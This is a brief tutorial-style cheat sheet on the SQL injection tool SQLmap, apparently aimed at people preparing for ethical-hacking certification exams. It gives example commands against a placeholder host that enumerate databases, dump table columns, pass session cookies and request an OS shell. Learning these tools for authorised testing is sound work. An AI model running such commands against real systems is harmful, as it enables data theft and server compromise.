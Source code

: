 # SQLmap

## Key Takeaways

1. **What is SQLmap?**
   - A powerful automation tool for identifying and exploiting SQL injection vulnerabilities.
   - Allows users to enumerate databases, extract data, and even execute system commands if conditions allow.
   - Essential for ethical hackers and frequently referenced in certification exams.

2. **Setting Up SQLmap**
   - Ensure SQLmap is installed (default in Kali Linux).
   - Basic syntax:
     ```bash
     sqlmap --url "http://target.com/vulnerable_page.php"
     ```
   - Use **GET** or **POST** requests:
     - For GET: Pass the URL.
     - For POST: Use `--data` to provide request body.

3. **Common SQLmap Options**
   - `--url`: Define the target URL.
   - `--cookie`: Provide session tokens for authenticated testing.
   - `--data`: Supply POST request parameters.
   - `--dbs`: Enumerate databases.
   - `--tables`: List tables within a database.
   - `--columns`: Display columns in a table.
   - `--dump`: Extract data from specified columns.
   - `--os-shell`: Attempt OS shell access.

4. **Example Commands**
   - Enumerate databases:
     ```bash
     sqlmap --url "http://target.com/vulnerable_page.php" --dbs
     ```
   - Enumerate tables in a specific database:
     ```bash
     sqlmap --url "http://target.com/vulnerable_page.php" -D <database_name> --tables
     ```
   - Dump data from specific columns:
     ```bash
     sqlmap --url "http://target.com/vulnerable_page.php" -D <database_name> -T <table_name> -C "column1,column2" --dump
     ```
   - Attempt OS command execution:
     ```bash
     sqlmap --url "http://target.com/vulnerable_page.php" -D <database_name> --os-shell
     ```

5. **Using Cookies and Session Tokens**
   - If a session is required, pass cookies using `--cookie`:
     ```bash
     sqlmap --url "http://target.com/vulnerable_page.php" --cookie="PHPSESSID=abc123; SecurityLevel=low"
     ```
